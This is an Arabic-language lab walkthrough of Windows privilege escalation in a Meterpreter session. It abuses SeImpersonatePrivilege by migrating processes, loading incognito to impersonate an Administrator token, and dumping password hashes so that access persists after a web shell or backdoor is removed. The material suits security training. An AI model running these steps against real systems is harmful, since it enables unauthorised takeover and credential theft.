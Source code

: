 خلونا نجرب اول نرفعها عن طريق الميتاسبلويت  
```bash
getsystem  
```  
طيب نشوف انه رفض خلونا الان نبدا بمرحلة الـ privileges esc  
اول  شي خل نفتح شيل ونشوف صلاحياتنا  
```bash
shell  
whoami /all  
```  
نشوف انه الان معنا صلاحية SeImpersonatePrivilege  
وهذا يعتبر misconfigruation  
خلونا الان نستغله  
اول شي نطلع من الشيل ونغير الى بروسس اخر  
```bash
CTRL + C  
migrate -N w3wp.exe  
```  
طبعا هذا البروسس جاي من اللاب ولا المفروض تحول لأي بروسس مستقره مثل explorer.exe  
الان خلونا نسوي load لبلقن معين راح يساعدنا بالاستغلال  
```bash
load incognito  
```  
طيب خلونا نشوف وش اوامر البلقن هذا وكيف بنشوف كل التوكنز الي عندنا  
```bash
help  
list_tokens -u  
```  
نشوف انه عطانا 3 راح نختار الاعلى صلاحيات والي هو Administrator  
خلونا الان ننتحل هذا التوكن  
```bash
impersonate_token DOTNETGOAT\\Administrator  
```  
طبعا لابد تخليه دبل باك سلاش عشان مايعتبره سكيب  
خلونا الان نشوف وش اليوزر الي معنا  
```bash
getuid  
```  
نشوف انه معنا الان Administartor  

خلونا نسوي hashdump  
```bash
hashdump  
```  
طيب ليه اخذنا الهاش وحنا معنا اعلى صلاحيات؟  
كله عشان الـ presistence  
لانه حنا دخلنا عن طريق الويب شيل او الباك دور ممكن يحصله التارقت ويحذفه ويكون مانقدر ندخل  
عشان كذا نكسر الهاش ولو حصل الباك دور وحذفه مثلا او حذف الويب شيل عندنا طريقه انه ندخل عن طريق اليوزر والباسورد الي طلعناه يوم كسرنا الهاش  


الى هنا انتهى اللاب خل نشوف الي بعده  

---  

Privilege Escalation
---------------------|
